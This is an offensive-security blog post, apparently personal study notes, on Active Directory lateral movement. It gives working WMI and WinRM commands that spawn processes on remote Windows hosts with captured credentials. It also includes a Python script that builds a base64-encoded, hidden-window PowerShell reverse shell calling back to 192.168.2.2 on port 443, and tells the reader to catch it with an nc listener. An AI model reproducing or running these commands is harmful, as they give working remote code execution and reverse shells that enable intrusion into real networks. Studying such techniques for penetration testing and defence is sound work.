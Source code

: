 ```yaml
---
layout: post
title: Active Directory Lateral Movement
titledate: 09/29/23
tags: ["infosec", "offsec", "AD", "powershell"]
---
```


#### lateral with wmi and winrm

#### wmi

here we use wmic to create a process

    C:> wmic /node:192.168.1.1 /user:jim /password:pass123! process call create "calc"

replicating the same attack in powershell

```powershell
$username = 'jim';
$password = 'pass123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.1.1 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

    PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

to create a reverse shell we can ditch the calc and insert our useable shellcode

the following is a python script that creates a reverse shell in powershell and base64 encodes it

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.2.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
when run this script will print the powershell command that can be added to the $command = part above 

now when we edit the ip and open a nc listener on 443 we will get a reverse shell

#### winrm

another remote management 

winrm only works for domain users and sends xml over 5985 and 5986 http/https

    C:> winrs -r:files04 -u:jen -p:pass123!  "cmd /c hostname & whoami" 

to execute our reverse shell we just addthe powershell -nop -w hidden -e reverseshellbase64

powershell also has winrm functionality

    PS:shawn> $username = 'jim';
    PS> $password = 'pass123!';
    PS> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    PS> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    PS> New-PSSession -ComputerName 192.168.1.1 -Credential $credential

so now we can enter the newly created session

    PS> Enter-PSSession 1
    PS:jim>

### NOTE: powershell seems to work better

